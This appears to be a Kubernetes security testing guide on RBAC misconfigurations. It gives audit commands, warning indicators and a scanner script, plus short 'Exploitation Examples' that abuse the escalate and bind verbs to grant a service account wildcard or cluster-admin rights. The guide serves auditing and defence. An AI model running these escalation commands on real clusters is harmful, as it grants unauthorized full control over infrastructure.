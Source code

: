 **Testing Commands:**
```bash
# Check for cluster-wide role bindings
kubectl get clusterrolebindings -o json | jq -r '.items[] | "\(.metadata.name): \(.roleRef.name) -> \(.subjects[]?.kind//\"N/A\") \(.subjects[]?.name//\"N/A\") in \(.subjects[]?.namespace//\"cluster-wide\")"'

# Check for roles with access to kube-system
kubectl get rolebindings -n kube-system -o json | jq -r '.items[] | "\(.metadata.name): \(.subjects[]?.name//\"N/A\") from \(.subjects[]?.namespace//\"same\")"'

# Look for broad namespace access
kubectl get clusterroles -o json | jq -r '.items[] | select(.rules[]?.resources[]? == "namespaces") | .metadata.name'
```

## How to Determine Vulnerability

**Critical Indicators:**
- Default service accounts with cluster-admin
- Service accounts with `escalate`, `bind`, or `impersonate` verbs
- Wildcard permissions (`*`) in roles
- LIST permissions without proper GET restrictions
- Cross-namespace access for application accounts

**Exploitation Examples:**

**Escalate Verb Abuse:**
```bash
# If you have 'escalate' permissions
cat << EOF | kubectl apply -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: escalated-admin
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF

kubectl create clusterrolebinding escalated-binding --clusterrole=escalated-admin --serviceaccount=default:myapp
```

**Bind Verb Abuse:**
```bash
# If you have 'bind' permissions
kubectl create clusterrolebinding admin-access --clusterrole=cluster-admin --serviceaccount=default:myapp
```

**Testing Script:**
```bash
#!/bin/bash
# K03 RBAC Scanner

echo "=== K03: RBAC Vulnerabilities Scanner ==="

echo "[+] Checking for cluster-admin abuse..."
kubectl get clusterrolebindings -o json | jq -r '.items[] | select(.roleRef.name == "cluster-admin") | "CRITICAL: \(.metadata.name) grants cluster-admin to \(.subjects[]?.kind//\"Unknown\") \(.subjects[]?.name//\"Unknown\")"'

echo "[+] Checking for dangerous verbs..."
kubectl get clusterroles -o json | jq -r '.items[] | select(.rules[]? | (.verbs[]? | test("escalate|bind|impersonate"))) | "WARNING: \(.metadata.name) has dangerous verbs"'
```